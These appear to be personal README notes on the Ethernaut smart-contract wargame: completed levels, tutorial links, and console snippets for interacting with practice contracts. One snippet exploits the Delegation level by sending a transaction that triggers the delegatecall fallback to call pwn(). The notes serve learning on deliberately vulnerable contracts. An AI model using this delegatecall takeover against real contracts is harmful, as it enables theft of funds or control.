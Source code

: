 ## Website
https://ethernaut.openzeppelin.com/

## Completed
0. Hello Ethernaut
1. Fallback
2. Fallout
3. CoinFlip
4. Telephone ✔
5. Token ✔
6. Delegation ✔
7. Force ✔
8. Vault ✔
9. King ✔

## Other useful sites:

https://www.pauric.blog/How-To-Hack-Ethereum-Contracts-The-Easy-Way/

https://trufflesuite.com/docs/truffle/getting-started/interacting-with-your-contracts

## Other Notes:

player is you
get the balance using
```
getBalance(player)
```

interact with the `contract`
```
(await contract.contributions(player)).toString();
await contract.contribute.sendTransaction({value: toWei(.0009)})
```
contract is a truffle object. can do fallback methods using
```
contract.sendTransction({value: 50000000});
```


### Delegate call with encoding of function signature
```
  fallback() external {
    (bool result,) = address(delegate).delegatecall(msg.data);
    if (result) {
      this;
    }
  }
  
  # Called with
  await contract.sendTransaction({data: web3.eth.abi.encodeFunctionSignature("pwn()")})
  
```

### Sending Ether
https://solidity-by-example.org/sending-ether/


